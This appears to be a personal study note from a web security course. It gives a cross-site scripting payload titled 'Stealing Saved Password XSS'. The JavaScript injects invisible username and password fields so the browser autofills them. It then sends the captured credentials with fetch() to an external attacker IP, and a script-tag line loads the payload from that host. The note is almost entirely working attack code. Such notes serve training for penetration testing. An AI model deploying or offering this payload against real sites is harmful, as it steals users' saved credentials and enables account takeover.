 ```yaml
---
tags:
- xss
---
```


# Stealing Saved Password XSS

How use external payload see here: [[2023042721181010 XSS external JS payload]]
## Payload:
```js
let body = document.getElementsByTagName("body")[0];

var u = document.createElement("input");
u.type = "text";
u.style.position = "fixed";
u.style.opacity = "0";

var p = document.createElement("input");
p.type = "password";
p.style.position = "fixed";
p.style.opacity = "0";

body.append(u);
body.append(p);

setTimeout(function(){ 
	fetch("http://192.168.49.55/ps?u=" + u.value + "&p=" + p.value)
 18   }, 5000);
 
```

## Inject payload 
```html
<script src='http://192.168.49.55/xss.js'></script>
```


## References
1. web200.Cross-Site Scripting Exploitation and Case Study.Stealing Saved Password
2. 